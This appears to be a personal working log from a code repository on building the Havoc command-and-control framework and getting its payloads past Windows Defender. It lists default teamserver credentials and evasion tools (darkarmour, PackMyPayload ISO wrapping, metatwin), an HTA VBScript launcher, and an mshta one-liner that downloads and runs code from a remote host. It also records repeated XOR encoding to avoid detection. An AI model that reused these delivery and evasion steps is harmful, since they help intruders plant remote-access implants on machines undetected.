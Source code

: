 Building havoc on an ubuntu system - OG$2Up8rx#k7

```
sudo apt install build-essential
sudo add-apt-repository ppa:deadsnakes/ppa
sudo apt update
sudo apt install python3.10 python3.10-dev
```

You can put your teamserver in a VPS whie your client can connect to the teamserver which can be local.

go ver 1.18 is required or above

teamserver installed and ready to go

to run teamserver use in team server directory - `./teamserver server --profile profiles/havoc.yaotl`

the host is the host ip
port is the defualt havoc port - 40056
user would be havoc user default - Neo
password - password1234

able to get a connect back. But unable ot evade antivirus.

next things

1. custom payload
Tried using havoc with darkarmour it runs it is caught by windows defender
![](./havoc_unencrypted.png))

and then using darkarmour evasion was successfull
https://github.com/bats3c/darkarmour - can we add AES to darkarmour
![](./windows_defender_havoc.png)

then created an iso file using packMyPayload
https://github.com/mgeeky/PackMyPayload
![](./iso_smartscreen_bypass.png)

2. how to use multiple vps's

3. metatwin
https://github.com/threatexpress/metatwin

4. dll persistance, creating a service
5. create a shellcode for all this and then integrate it with darkarmour
6. generate hta to create something similar to linkzip exploit

https://www.ired.team/offensive-security/code-execution/t1170-mshta-code-execution

```
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```

this did not work 

however creating a download and execute with mshta

`mshta.exe vbscript:Close(Execute("GetObject(""script:http://10.10.6.55:8000/legit.iso"")"))`

![](./mshta_caught.png)


7. creating lnk file

tried doing it through powershell -


this detects can we put it in hta to create a shortcut?

### detection

with cloud based protection after couple of downloads the file is getting detected, lets try for in memory exection apart from xor?

![](./detection_cloud_tamper.png)

### evasion

then again xoring 7 times and creating a exes

![](./xor7_connectback.png)

![](./xor7_evasion.png)

![](./xor7_smartscreen.png)

creating lnk file.

